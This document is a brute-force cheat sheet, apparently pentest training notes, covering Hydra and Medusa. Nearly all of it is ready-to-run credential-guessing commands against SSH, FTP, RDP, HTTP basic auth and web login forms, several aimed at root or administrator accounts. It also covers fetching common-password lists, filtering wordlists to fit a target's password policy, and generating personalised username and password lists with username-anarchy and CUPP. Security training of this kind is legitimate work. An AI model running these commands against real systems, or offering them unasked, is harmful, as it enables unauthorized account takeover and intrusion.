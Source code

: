 # Brute Force Commands Cheat Sheet

## Installation Commands

### Hydra Installation
```bash
sudo apt-get -y update
sudo apt-get -y install hydra
```

### Medusa Installation
```bash
sudo apt-get -y update
sudo apt-get -y install medusa
```

### CUPP Installation
```bash
sudo apt install cupp -y
```

### Username Anarchy Installation
```bash
sudo apt install ruby -y
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
```

## Hydra Commands

### Basic Hydra Syntax
```bash
hydra [login_options] [password_options] [attack_options] [service_options]
```

### HTTP Basic Authentication
```bash
hydra -l username -P passwords.txt target.com http-get
```

### SSH Brute Force
```bash
hydra -l root -P passwords.txt ssh://192.168.1.100
```

### Multiple SSH Targets
```bash
hydra -l root -p toor -M targets.txt ssh
```

### FTP with Custom Port
```bash
hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp
```

### Web Login Form (POST)
```bash
hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"
```

### Advanced RDP with Generated Passwords
```bash
hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp
```

### HTTP POST Form with Failure Condition
```bash
hydra -L usernames.txt -P passwords.txt -f IP -s PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## Medusa Commands

### Basic Medusa Syntax
```bash
medusa [target_options] [credential_options] -M module [module_options]
```

### SSH Brute Force
```bash
medusa -h 192.168.0.100 -U usernames.txt -P passwords.txt -M ssh
```

### Multiple Web Servers with Basic Auth
```bash
medusa -H web_servers.txt -U usernames.txt -P passwords.txt -M http -m GET
```

### Test for Empty/Default Passwords
```bash
medusa -h 10.0.0.5 -U usernames.txt -e ns -M service_name
```

### SSH with Parallel Tasks
```bash
medusa -h IP -n PORT -u sshuser -P passwords.txt -M ssh -t 3
```

### FTP Brute Force
```bash
medusa -h 127.0.0.1 -u ftpuser -P passwords.txt -M ftp -t 5
```

## Wordlist and Filtering Commands

### Download Common Wordlists
```bash
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/500-worst-passwords.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
```

### Filter Passwords by Policy (Minimum Length)
```bash
grep -E '^.{8,}$' passwords.txt > filtered-minlength.txt
```

### Filter for Uppercase Letters
```bash
grep -E '[A-Z]' input.txt > output-uppercase.txt
```

### Filter for Lowercase Letters
```bash
grep -E '[a-z]' input.txt > output-lowercase.txt
```

### Filter for Numbers
```bash
grep -E '[0-9]' input.txt > output-numbers.txt
```

### Complex Policy Filter (6+ chars, upper, lower, number, 2+ special chars)
```bash
grep -E '^.{6,}$' passwords.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > filtered-passwords.txt
```

### Count Lines in File
```bash
wc -l filename.txt
```

## Custom Wordlist Generation

### Username Anarchy Usage
```bash
./username-anarchy -l  # List available plugins
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

### CUPP Interactive Mode
```bash
cupp -i
```

## Network Reconnaissance

### Check Listening Ports
```bash
netstat -tulpn | grep LISTEN
```

### Nmap Localhost Scan
```bash
nmap localhost
```

## Connection Commands

### SSH Connection
```bash
ssh username@IP -p PORT
```

### FTP Connection
```bash
ftp ftp://username:password@hostname
```

## File Operations in FTP
```bash
ftp> ls          # List files
ftp> get file.txt # Download file
ftp> exit        # Exit FTP session
```

## Key Parameters Reference

### Hydra Parameters
- `-l LOGIN` : Single username
- `-L FILE` : Username list file
- `-p PASS` : Single password
- `-P FILE` : Password list file
- `-t TASKS` : Number of parallel tasks
- `-f` : Stop after first success
- `-s PORT` : Custom port
- `-v` : Verbose output

### Medusa Parameters
- `-h HOST` : Single target
- `-H FILE` : Target list file
- `-u USERNAME` : Single username
- `-U FILE` : Username list file
- `-p PASSWORD` : Single password
- `-P FILE` : Password list file
- `-M MODULE` : Attack module
- `-t TASKS` : Parallel login attempts
- `-f` : Stop after first success per host
- `-F` : Stop after first success any host
